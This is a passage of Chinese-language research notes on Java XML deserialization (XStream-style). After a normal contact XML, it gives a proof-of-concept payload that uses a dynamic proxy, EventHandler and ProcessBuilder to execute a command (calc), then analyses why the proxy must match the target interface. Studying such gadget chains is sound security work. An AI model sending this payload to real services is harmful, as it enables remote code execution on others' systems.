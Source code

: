 正常使用的xml：
```xml
<contact>  
    <name>John Doe</name>
    <email>john.doe@example.com</email>  
</contact>
```

对于这个代码，可以成功的命令执行
```xml
<contact class='dynamic-proxy'>  
    <interface>Contact</interface>  
    <handler class='java.beans.EventHandler'>  
        <target class='java.lang.ProcessBuilder'>  
            <command>                
            <string>calc</string>  
            </command>        
        </target>        
        <action>start</action>  
    </handler>
    <name>John Doe</name>
    <email>john.doe@example.com</email>  
</contact>
```

我理解大概是本来应该转换出一个Contact出来，Poc的xml则是转成了一个 com.sun.proxy动态代理
当动态代理的接口Contact调用时则触发handle，那如果注册的接口是其他的呢

![](../images/Pasted%20image%2020241204103737.png)

很可惜，就算把监听接口改成其他的，这个转换出来的类直接无法给contact，不仅无法使用Contact的函数了，并且后续也无法触发了
![](../images/Pasted%20image%2020241204104855.png)

如果换成ContactImpl也一样无法触发
![](../images/Pasted%20image%2020241204115346.png)

也就是接受返回的必须是一个接口，并且监听的必须是这个接口，才能赋值成功

#### 1.2.3 正常Proxy动态代理序列化

那么一个正常的proxy类应该长什么样子呢

> 动态代理参考：
> https://blog.csdn.net/zhaoyanjun6/article/details/125835341

```java
public interface Student {  
	String getName();  
	void setName(String name);  
	int getAge();   
	void setAge(int age);  
	String getStudentId();  
	void setStudentId(String studentId);  
	void morning(String name);  
}
```
